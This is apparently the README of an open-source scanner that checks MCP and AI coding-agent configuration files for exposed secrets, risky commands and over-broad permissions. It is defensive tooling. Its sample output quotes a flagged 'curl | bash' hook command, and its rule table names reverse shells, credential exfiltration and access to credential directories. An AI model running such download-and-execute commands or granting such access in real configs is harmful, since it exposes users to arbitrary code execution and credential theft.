




# AgentConfig Doctor: MCP and AI Coding-Agent Config Security Scanner

[](https://github.com/vasikmansuri/agentconfig-doctor/actions/workflows/ci.yml)
[](LICENSE)

**Catch leaked keys, dangerous commands and over-broad permissions in your AI coding-agent configuration before you commit or share it.**

AgentConfig Doctor is an open-source **MCP security scanner** and config linter for **Claude Code, Cursor and VS Code (GitHub Copilot)**. This local-first CLI checks `.mcp.json`, `.cursor/mcp.json`, `.vscode/mcp.json`, `.claude/settings.json`, Cursor rules, `CLAUDE.md` and `AGENTS.md` for:

- **exposed secrets and API keys**
- **risky shell commands**, such as `curl | sh` in hooks or MCP servers
- **broad filesystem permissions**
- **invalid or suspicious MCP server definitions**
- **permission changes in pull requests**

Every finding explains what it saw, why it matters and how to fix it. It needs no AI API and no account, sends no telemetry, and never runs the commands it inspects.

<p align="center">
  
</p>

**Use it to:** validate an MCP config file, audit Claude Code permissions, lint Cursor MCP servers, scan AI agent configs for secrets in CI, or review a repository's agent setup before you trust it.

> Status: **0.1.0, pre-release.** The CLI is feature-complete for its first release and tested, but has not been published to npm yet. Until then, [run it from source](#from-source).

## Contents

- [Demo](#demo)
- [Installation](#installation)
- [Quick start](#quick-start)
- [Supported configuration files](#supported-configuration-files)
- [Rules](#rules)
- [Baselines and permission-change detection](#baselines-and-permission-change-detection)
- [GitHub Actions](#github-actions)
- [Output formats and exit codes](#output-formats-and-exit-codes)
- [Configuration](#configuration)
- [Security model and privacy](#security-model-and-privacy)
- [Known limitations](#known-limitations)
- [Roadmap](#roadmap)
- [Contributing](#contributing)
- [Troubleshooting](#troubleshooting)
- [FAQ](#faq)
- [License and acknowledgements](#license-and-acknowledgements)

## Demo

Real output from scanning [`examples/risky-project`](examples/risky-project) and [`examples/safe-project`](examples/safe-project). The screenshots are shortened (no `fix:` lines, first findings only).

| Risky project: fails with 20 findings                                                  | Safe project: passes                                                                 |
| -------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------ |
|  |  |

### HTML report

`--format html` writes one self-contained page you can attach to a pull request or CI run. Each finding shows the file and line, the evidence (with secrets redacted), why it matters and how to fix it.

<p align="center">
  
</p>

### Commands hidden behind variables

MCP configs can use variables such as `${RUN:-rm}` or `${userHome}`, so the command that runs is not the one you read. AgentConfig Doctor expands them statically, without reading your environment, checks the result, and prints a **resolved** command next to the source location:

<p align="center">
  
</p>

<details>
<summary>Full text output</summary>

```text
$ agentconfig-doctor scan risky-project
agentconfig-doctor 0.1.0 · scanned 5 files in risky-project

HIGH     ACD010  Risky combination of settings
  .claude/settings.json:11:3
  enableAllProjectMcpServers is true and .mcp.json defines 4 local server(s) ("filesystem", "installer", "database", "github"). They start without an approval prompt.
  fix: Set enableAllProjectMcpServers to false and approve individual servers with "enabledMcpjsonServers", ideally in .claude/settings.local.json rather than the shared settings file.

HIGH     ACD002  Risky command configuration
  .claude/settings.json:19:13
  PostToolUse hook runs a command that downloads content and pipes it straight into an interpreter, so whatever the server returns is executed without review.
  evidence: curl -s https://example.com/hook.sh | bash
  fix: Replace the command with a pinned, reviewed executable or package. ...

HIGH     ACD003  Broad filesystem access
  .mcp.json:8:9
  MCP server "filesystem" argument grants access to the entire filesystem (/).
  evidence: /
  fix: Grant access to the project directory (or a specific sub-directory) instead. ...

HIGH     ACD001  Potential exposed credential
  .mcp.json:22:29
  Password embedded in URL pattern found. The value is redacted; verify whether it is a live credential.
  evidence: ****

MEDIUM   ACD007  Duplicate or conflicting MCP server name
  .cursor/mcp.json:4:5
  Server "docs" is defined more than once in "mcpServers". JSON parsers keep only the last definition.

...

Summary: 0 critical, 9 high, 6 medium, 5 low, 0 info (20 findings in 5 files)
Result: FAIL (9 findings at or above "high")
```

And the [`examples/safe-project`](examples/safe-project) counterpart:

```text
$ agentconfig-doctor scan safe-project
agentconfig-doctor 0.1.0 · scanned 5 files in safe-project

Summary: 0 critical, 0 high, 0 medium, 0 low, 0 info (0 findings in 5 files)
Result: PASS (no findings at or above "high")
Findings come from static, heuristic rules. A clean result means no implemented rule matched; it does not prove a configuration is safe.
```

</details>

## Installation

Requires Node.js 22.12 or later.

### From npm (after the first release)

```bash
npx agentconfig-doctor scan            # one-off
npm install --global agentconfig-doctor
```

### From source

```bash
git clone https://github.com/vasikmansuri/agentconfig-doctor.git
cd agentconfig-doctor
npm ci
npm run build
node dist/cli.js scan /path/to/your/project
```

## Quick start

```bash
agentconfig-doctor scan                       # scan the current directory
agentconfig-doctor scan ./my-project --fail-on medium
agentconfig-doctor check-mcp .cursor/mcp.json # validate MCP files only
agentconfig-doctor scan --format json --output report.json
agentconfig-doctor scan --format html --output report.html
agentconfig-doctor rules                      # list every rule
```

## Supported configuration files

| Format               | Files                                                       | Parsed as                   |
| -------------------- | ----------------------------------------------------------- | --------------------------- |
| Claude Code MCP      | `.mcp.json` (any directory in the scan)                     | strict JSON, `mcpServers`   |
| Claude Code settings | `.claude/settings.json`, `.claude/settings.local.json`      | strict JSON                 |
| Cursor MCP           | `.cursor/mcp.json`                                          | strict JSON, `mcpServers`   |
| Cursor rules         | `.cursor/rules/**/*.mdc` (and stray `.md` files there)      | text + frontmatter          |
| VS Code MCP          | `.vscode/mcp.json`                                          | JSONC, `servers` + `inputs` |
| Agent instructions   | `CLAUDE.md`, `CLAUDE.local.md`, `AGENTS.md`, `.cursorrules` | text                        |

Formats were checked against the official Claude Code, Cursor and VS Code documentation in October 2026. Field-level details and sources are in [docs/supported-formats.md](docs/supported-formats.md).

Other JSON files are never treated as agent configuration. **Home-directory configuration (for example `~/.claude.json`, `~/.cursor/mcp.json` or `~/.claude/settings.json`) is not scanned unless you explicitly pass that path**, and the tool never walks your home directory on its own.

## Rules

| ID     | Rule                                 | Up to    | What it looks for                                                                                                                                                                                   |
| ------ | ------------------------------------ | -------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ACD001 | Potential exposed credential         | critical | Vendor token formats (GitHub, GitLab, AWS, Anthropic, OpenAI, Slack, Stripe, Google, npm, Hugging Face), private keys, JWTs, passwords in URLs, literal bearer tokens                               |
| ACD002 | Risky command configuration          | critical | Download-and-execute, reverse shells, credential exfiltration, encoded payloads, destructive deletes, `sudo` and TLS bypass in MCP commands, hooks, helpers, Bash allow rules and instruction files |
| ACD003 | Broad filesystem access              | high     | `/`, whole home directories, `~/.ssh`/`~/.aws`-style credential locations and system directories in MCP args, docker mounts, `additionalDirectories`, Read/Edit allow rules and sandbox paths       |
| ACD004 | Hard-coded sensitive env value       | high     | Literal values for `*_TOKEN`, `*_API_KEY`, `PASSWORD`, `Authorization` and similar, where a `${VAR}` reference belongs                                                                              |
| ACD005 | Invalid MCP configuration            | medium   | JSON errors, wrong top-level key, field types, unknown transports, command/url conflicts, bad URLs, undefined VS Code `${input:...}`                                                                |
| ACD006 | Suspicious MCP server definition     | high     | Plain-HTTP or IP-literal endpoints, hosts outside an allow-list, unpinned `npx`/`uvx` packages, temp-dir executables, privileged containers, TLS bypass and `LD_PRELOAD` in env                     |
| ACD007 | Duplicate or conflicting server name | medium   | Duplicate JSON keys, case-only collisions, the same name defined differently across files                                                                                                           |
| ACD008 | Missing or invalid setting           | medium   | Claude settings types, malformed permission rules, ignored rule forms, unknown or bypass `defaultMode`, hook structure; Cursor rule frontmatter                                                     |
| ACD009 | Permission change since baseline     | high     | With `--baseline`: added allow rules, removed deny/ask rules, mode changes, new directories, MCP auto-approval, new hooks, added or changed servers                                                 |
| ACD010 | Risky combination of settings        | high     | `enableAllProjectMcpServers` with local servers; unrestricted `Bash` allow without the sandbox                                                                                                      |
| ACD011 | Hidden or bidirectional Unicode      | high     | Bidi overrides, Unicode tag characters and zero-width characters that hide text from reviewers                                                                                                      |

Rule IDs are stable and never reused. Severity definitions and per-rule detail are in [docs/rules.md](docs/rules.md).

### Example remediations

| Finding                               | Fix                                                                                             |
| ------------------------------------- | ----------------------------------------------------------------------------------------------- |
| A GitHub token literal in `.mcp.json` | Rotate the token, then use `"GITHUB_TOKEN": "${GITHUB_TOKEN}"`                                  |
| `"args": ["-y", "@scope/server"]`     | Pin it: `"@scope/server@1.4.2"`                                                                 |
| `"allow": ["Bash"]`                   | Use specific rules such as `"Bash(npm run test *)"`, or enable `"sandbox": { "enabled": true }` |
| `"enableAllProjectMcpServers": true`  | Approve servers individually with `"enabledMcpjsonServers"` in `settings.local.json`            |
| Filesystem server given `"/"`         | Pass the project directory instead                                                              |

## Baselines and permission-change detection

A baseline records today's accepted findings and a snapshot of permission settings. Later scans fail only on **new** findings and report permission changes (ACD009).

```bash
agentconfig-doctor baseline create      # writes .agentconfig-doctor-baseline.json
git add .agentconfig-doctor-baseline.json
agentconfig-doctor scan --baseline .agentconfig-doctor-baseline.json
agentconfig-doctor baseline update      # deliberately accept the current state
```

`baseline create` refuses to overwrite an existing file and `baseline update` refuses to create one, so a baseline is never silently replaced. An invalid or newer-version baseline stops the scan with exit code 2. Baselines contain fingerprints, rule IDs, file paths and redacted permission rules, never secret values. See [docs/baselines.md](docs/baselines.md).

## GitHub Actions

```yaml
name: Agent config check
on: [pull_request]
permissions:
  contents: read
jobs:
  agentconfig-doctor:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - uses: actions/setup-node@949feb2413d6458794dcd2491c4babbbce0c15c1 # v7.1.0
        with:
          node-version: 22
      - run: npx --yes agentconfig-doctor@0.1.0 scan . --fail-on high
```

The workflow needs only `contents: read`, uses no secrets, and is safe on `pull_request` from forks because the scanner never executes scanned content. Guidance on JSON artifacts and baselines in CI is in [docs/github-actions.md](docs/github-actions.md). The npm-based example works once 0.1.0 is published.

## Output formats and exit codes

`--format terminal` (default; colour only on a TTY; respects `NO_COLOR`), `--format json` (stable schema, see [docs/json-report.md](docs/json-report.md)) and `--format html` (self-contained, escaped, no scripts, restrictive CSP).

| Code | Meaning                                                                                  |
| ---- | ---------------------------------------------------------------------------------------- |
| 0    | No findings at or above `--fail-on` (default `high`)                                     |
| 1    | Findings at or above `--fail-on` (only **new** findings count when `--baseline` is used) |
| 2    | Usage or input error: bad option, missing path, invalid config or baseline               |
| 3    | Unexpected internal error                                                                |
| 4    | No supported files were found and `--fail-if-empty` was given                            |

A scan that finds no supported files prints "nothing was checked" rather than a pass.

## Configuration

Configuration is **only** read from a file you pass with `--config`. It is never loaded from the scanned directory, so an untrusted repository cannot switch rules off.

```json
{
  "disabledRules": ["ACD011"],
  "ignore": [{ "rule": "ACD006", "path": "tools/.mcp.json", "reason": "pinned by lockfile" }],
  "allowedPaths": ["~/shared-datasets"],
  "allowedHosts": ["*.mycompany.dev"]
}
```

Other options: `--include <glob>`, `--exclude <glob>` (both repeatable), `--max-file-size <bytes>` (default 1 MiB), `--verbose`, `--no-color`.

## Security model and privacy

- Never executes discovered commands and never connects to discovered MCP servers.
- No network requests during a scan, no telemetry, no uploads.
- Secrets are redacted in terminal, JSON and HTML output, in error messages and in baselines.
- Symlinks are never followed outside the scan root, symlinked directories are not descended into, and oversized or binary files are skipped with a reason.
- Untrusted text is escaped for the terminal (control and bidi characters) and for HTML.

Details and threat model: [docs/security-model.md](docs/security-model.md). Report vulnerabilities privately as described in [SECURITY.md](SECURITY.md).

## Known limitations

- Detection is static and heuristic. It produces false positives (for example documentation that quotes a `curl | sh` installer) and misses anything it has no rule for. A clean scan is not a safety guarantee.
- Credential detection covers well-known vendor formats and obvious literals. It does not verify whether a credential is live and does not do entropy analysis.
- Commands are matched textually. Obfuscated or multi-stage payloads, scripts referenced by path, and package contents are not analysed.
- Only the files listed above are supported. User-level files are scanned only when passed explicitly; enterprise/managed settings are out of scope.
- Permission-change detection compares against a saved baseline, not a Git diff.

## Roadmap

Planned, in rough priority order (not commitments):

- SARIF output for GitHub code scanning
- Git-diff mode for permission changes (`--since <ref>`)
- Adapters for more agents (Windsurf, Zed, Continue, Codex CLI, Gemini CLI) once their formats are verified
- A published GitHub Action wrapper
- Custom rule packs
- Editor integrations

Optional AI-generated remediation and any hosted dashboard are deliberately out of scope until the CLI proves useful. Suggest or upvote features in [Issues](https://github.com/vasikmansuri/agentconfig-doctor/issues).

## Contributing

Contributions are welcome, from a new credential pattern to a new agent adapter. Start with [CONTRIBUTING.md](CONTRIBUTING.md) and [docs/rule-authoring.md](docs/rule-authoring.md). Issues labelled `good first issue` are a good entry point. Please report false positives: they are bugs.

```bash
npm ci
npm run check   # typecheck, lint, format check, build, tests
```

## Troubleshooting

Common problems (nothing found, a file is skipped, false positives, CI exit codes) are covered in [docs/troubleshooting.md](docs/troubleshooting.md).

## FAQ

### How do I check an MCP server configuration for security problems?

Run `agentconfig-doctor scan` in your project, or `agentconfig-doctor check-mcp .mcp.json` to validate only MCP files. It reports leaked credentials, unpinned `npx`/`uvx` packages, plain-HTTP endpoints, privileged Docker flags, whole-disk filesystem access and structural errors, each with a file and line number.

### Is it safe to run on an untrusted repository?

Yes, by design. It parses files as text and never executes commands, never contacts MCP servers, makes no network requests and ignores any configuration inside the scanned repository. See the [security model](docs/security-model.md).

### Does it work with Claude Code permissions and hooks?

Yes. It reads `.claude/settings.json` and `settings.local.json` and flags unrestricted `Bash` allow rules without the sandbox, access to `~/.ssh` or `/`, `enableAllProjectMcpServers`, ignored rule syntax and risky hook commands. With a baseline it also reports newly added allow rules or removed deny rules in pull requests.

### Does it detect secrets in Cursor or VS Code MCP config?

Yes. `.cursor/mcp.json` and `.vscode/mcp.json` are scanned for GitHub, AWS, Anthropic, OpenAI, Slack, Stripe, Google, npm and Hugging Face tokens, private keys, JWTs and passwords in URLs. Values are always redacted in the output.

### How is this different from a general secret scanner like gitleaks or TruffleHog?

Those tools are excellent at finding secrets across a whole Git history. AgentConfig Doctor is narrower and understands agent configuration: it knows what an MCP server definition, a permission rule or a hook means, so it can flag risky behaviour, invalid configuration and permission changes, not just secrets. Using both is reasonable.

### Do I need an AI model or API key?

No. All checks are deterministic rules that run locally.

## License and acknowledgements

[MIT](LICENSE). Built with [Commander.js](https://github.com/tj/commander.js), [Zod](https://zod.dev) and Microsoft's [jsonc-parser](https://github.com/microsoft/node-jsonc-parser). Configuration formats follow the public documentation of Claude Code, Cursor, VS Code and the Model Context Protocol. This project is not affiliated with Anthropic, Anysphere (Cursor) or Microsoft.
